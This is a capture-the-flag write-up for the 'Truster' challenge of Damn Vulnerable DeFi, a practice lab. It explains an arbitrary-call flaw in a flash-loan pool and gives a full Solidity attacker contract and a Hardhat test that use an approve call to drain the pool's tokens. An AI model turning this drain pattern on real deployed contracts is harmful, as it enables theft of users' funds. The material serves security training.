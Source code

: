 # #3 Truster Damn Vulnerable Defi

## Goals

=> More and more lending pools are offering flash loans. In this case, a new pool has launched that is offering flash loans of DVT tokens for free.

=> The pool holds 1 million DVT tokens. You have nothing.

=> To pass this challenge, take all tokens out of the pool. If possible, in a single transaction.

### Hints

- None

### Solution

- The weakness is in the `flashLoan()` function which takes an arbitrary address called "target" and calls that function with any data the user want's to pass in so we can make an approve call in the assed in data like `abi.encodeWithSignature("approve(address,uint256)", address(this), 2 ** 256 - 1)` which will approve us for MAX_UINT256 tokens which we can transfer away after that

### Attacker Contract

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "./TrusterLenderPool.sol";

interface IPool {
    function flashLoan(
        uint256 amount,
        address borrower,
        address target,
        bytes calldata data
    ) external returns (bool);
}

contract TrusterAttacker {
    using Address for address;
    DamnValuableToken public immutable token;
    IPool public pool;
    address public attacker;

    constructor(address _token, address _pool) {
        token = DamnValuableToken(_token);
        pool = IPool(_pool);
        attacker = msg.sender;
    }

    function attack() external {
        bytes memory data = abi.encodeWithSignature(
            "approve(address,uint256)",
            address(this),
            2 ** 256 - 1
        );
        pool.flashLoan(0, address(this), address(token), data);
        uint256 balance = token.balanceOf(address(pool));
        token.transferFrom(address(pool), attacker, balance);
    }
}

```

### Test

```javascript
it('Exploit', async function () {
	const AttackerFactory = await ethers.getContractFactory('TrusterAttacker', attacker);
	const attackerContract = await AttackerFactory.deploy(this.token.address, this.pool.address);
	attackerContract.attack();
});
```
